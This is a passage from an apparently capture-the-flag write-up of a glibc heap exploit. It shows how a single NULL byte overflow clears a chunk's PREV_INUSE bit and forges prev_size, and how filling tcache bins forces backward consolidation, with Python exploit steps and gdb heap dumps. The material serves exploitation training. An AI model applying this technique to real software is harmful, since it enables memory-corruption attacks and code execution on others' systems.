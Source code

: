 * The idea is that we want to use the single NULL byte overflow to set C's `PREV_INUSE` bit to 0, meaning we change C's size from 0x131 to 0x100. As we do that, we also want to set C's `prev_size` field to 0x250. More information about that is given below.

```python
# Setup
add(0x128) # A, idx 0
add(0x118) # B, idx 1
add(0x118) # C, idx 2
```

* The chunks are shown in gdb as follows:

```c
gef➤  x/200gx 0x000055a7bc254000
...
0x55a7bc254250: 0x0000000000000000      0x0000000000000131 <- chunk A
0x55a7bc254260: 0x0000000000000000      0x0000000000000000
...
0x55a7bc254380: 0x0000000000000000      0x0000000000000121 <- chunk B
0x55a7bc254390: 0x0000000000000000      0x0000000000000000
...
0x55a7bc2544a0: 0x0000000000000000      0x0000000000000121 <- chunk C
```

#### Step 2: **Prepare the tcache bins**

* Completely fill up the 0xf0 sized tcache bin (Which would store the freed chunk C ***after*** its size is overwritten to 0x100) and 0x128 sized tcache bin (which would otherwise store chunk A when we free it).

```python
# Fill up tcache bin 0xf0
# Done because the NULL byte overflow will unset the PREV_INUSE bit of the next chunk
# Meaning that it will change the next chunks size to 0x100
# 0x100 chunks go into the 0xf0 tcache bin
# We prevent this since we want backwards consolidation to occur
# This will be evident further below
for i in range(7):
  add(0xf0)
for i in range(7):
  free(i+3)

# Fill up tcache bin 0x128
# We do this because of the same reason above
for i in range(7):
  add(0x128)
for i in range(7):
  free(i+3)
```

```c
gef➤  heap bins tcache

// Counts set to 7 meaning both tcache bins are full
Tcachebins[idx=14, size=0xf0] count=7  ←  Chunk(addr=0x55a7bc254bd0, size=0x100, flags=PREV_INUSE)  ←  Chunk(addr=0x55a7bc254ad0, size=0x100, flags=PREV_INUSE)  ←  ...

Tcachebins[idx=17, size=0x120] count=7  ←  Chunk(addr=0x55a7bc2553f0, size=0x130, flags=PREV_INUSE)  ←  Chunk(addr=0x55a7bc2552c0, size=0x130, flags=PREV_INUSE)  ←  ...
```
